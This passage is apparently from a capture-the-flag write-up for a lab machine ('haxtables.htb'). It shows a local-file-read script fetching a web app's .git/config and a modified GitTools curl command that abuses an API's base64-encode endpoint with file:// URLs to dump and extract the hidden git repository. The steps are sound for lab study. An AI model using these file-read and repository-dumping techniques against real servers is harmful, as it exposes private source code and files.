 ```bash
❯ python fileRead.py "/var/www/image/.git/config"
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
```

There are few tool, but none can help as the git directory is not directly accessible from URL.

We can modify [GitTools](https://github.com/internetwache/GitTools) "gitdumper.sh" script to extract ".git" directory using POST request.

Replace [curl command in gitdumper.sh script (line 114)](https://github.com/internetwache/GitTools/blob/7cac63a2c141cdf2ab0f854e790ace3f430304f4/Dumper/gitdumper.sh#L114) with following command and run script normally

```bash
    curl -s -X POST \
        -d "{\"action\":\"b64encode\",\"file_url\":\"$url\"}" \
        'http://api.haxtables.htb/v3/tools/string/index.php' | jq -r .data | base64 -d > "$target"
```

```bash
# Dump .git
bash gitdumper.sh file:///var/www/image/.git/ /tmp

# Extract all commits
bash extractor.sh /tmp /tmp
```

![](screenshots/image-git-dump.png)
